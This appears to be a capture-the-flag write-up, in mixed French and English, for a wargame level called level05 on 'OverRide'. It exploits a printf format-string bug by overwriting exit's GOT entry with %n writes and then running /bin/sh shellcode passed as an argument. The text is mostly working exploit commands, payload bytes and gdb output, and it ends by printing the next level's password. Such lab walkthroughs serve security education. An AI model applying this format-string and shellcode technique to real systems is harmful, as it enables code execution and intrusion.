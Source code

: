 # Level05

- Source code
    
    ```c
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      char s[100]; // [esp+28h] [ebp-70h] BYREF
      unsigned int i; // [esp+8Ch] [ebp-Ch]
    
      i = 0;
      fgets(s, 100, stdin);
      for ( i = 0; i < strlen(s); ++i )
      {
        if ( s[i] > 64 && s[i] <= 90 )
          s[i] ^= 0x20u;
      }
      printf(s);
      exit(0);
    }
    ```
    

fgets read 100 chars.

Les char entre 64 et 90 inclu sont additionne de 20.

On peut realiser un format string attack car la string est directement passe en parametre de printf

```c
level05@OverRide:~$ ./level05
AAAA %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3add ffffd6df ffffd6de 0 ffffffff ffffd764 f7fdb000 61616161 20782520
```

Le offset est trouve : A (41) + 20 = 61

Le offset est de 10 words, soit (10 * 4) 40 bytes

On doit donc donner une addresse ou on peut ecrire ce qu’on veut 

```c
level05@OverRide:~$ gdb -q level05
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Starting program: /home/users/level05/level05 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048449 in main ()
(gdb) x /200x $esp
[...]
0xffffd8e0:     0x61616161      0x61616161      0x48530061      0x3d4c4c45
0xffffd8f0:     0x6e69622f      0x7361622f      0x45540068      0x783d4d52
```

adresse de av[1] = 0xffffd8e0 + c (4 * 3) = 0xffffdf8c

On va donc passer ca en *av[1]* a notre programme (un simple ret2libc avec system + exit + “/bin/sh”)

```bash
python -c "print('A' * 156 + '\xd0\xae\xe6\xf7' + '\x90\xeb\xe5\xf7' + '\xec\x97\xf8\xf7')”
```

Nous allons write avec *%*n dans *0x080497e0* l’addresse de exit dans la *GOT* pour ecrire l’addresse de av[1] et executer notre *system()*

Lets’ find the GOT address of exit ([https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4))

```bash
(gdb) disas main
[...]
   0x08048513 <+207>:   call   0x8048370 <exit@plt>
[...]
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

```bash
python -c "print('\xe0\x97\x04\x08' + '%10\$x')" |  ./level05 `python -c "print('\xd0\xae\xe6\xf7' + '\x90\xeb\xe5\xf7' + '\xec\x97\xf8\xf7')"`
```

We can print our addresse, now let’s overwrite it :

0xFFFFD8BC = 4294957244

```bash
python -c "print('\xe0\x97\x04\x08' + '%10\$n')" > /tmp/input
```

```bash
(gdb) run aaaa < /tmp/input
Starting program: /home/users/level05/level05 aaaa < /tmp/input
�

Breakpoint 1, 0x0804850c in main ()
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x00000004
```

We know that we can overwrite and then seg. fault

```bash
python -c "print('\xe0\x97\x04\x08' + '%4294957248x' + '%10\$n')" > /tmp/input
```

The address we want to write is 0xffffdf8c, it’s to long

we are going to write 0xdf8c in 0x080497e0

and 0xffff in 0x080497e0 + 2

```bash
python -c "print(address + (address + 2) + '%(0xdf8c - 8)x' + '%10\$n'+ '%(0xffff - 0xdf8c)x' + '%11\$n')" > /tmp/test
```

address 1 = 0x080497e0

address 2 = 0x080497e2

x1 = 57,228 - 8 = 57,220

x2 = 0xffff - 0xdf8c = 8307

```bash
python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%57220x' + '%10\$n'+ '%8307x' + '%11\$n')" > /tmp/test
```

```bash
Program received signal SIGSEGV, Segmentation fault.
0xffffdf8c in ?? ()
```

Got it !

```bash
Starting program: /home/users/level05/level05 `python -c "print('\x90' * 100 + '\xd0\xae\xe6\xf7' + '\x90\xeb\xe5\xf7' + '\xec\x97\xf8\xf7')"` < /tmp/test
[...]
Breakpoint 1, 0x0804850c in main ()
(gdb) si
0x08048513 in main ()
(gdb)
0x08048370 in exit@plt ()
(gdb)
0xffffdf8c in ?? ()
(gdb)
0xffffdf8d in ?? ()
(gdb) x 0xffffdf8c
0xffffdf8c:     0x90909090
(gdb) ni
[...]
(gdb)
0xffffdfa2 in ?? ()
(gdb)

Program received signal SIGSEGV, Segmentation fault.
0xffffdfa2 in ?? ()
(gdb) x 0xffffdfa2
0xffffdfa2:     0xf7e6aed0
```

We try with a shellcode is way easier :

```bash
python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%57220x' + '%10\$n'+ '%8307x' + '%11\$n')" | env -i ./level05 `python -c "print('\x90' * 100 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31
\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')"`
```

Got it !

```bash
[...]
f7fcfac0
$ cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```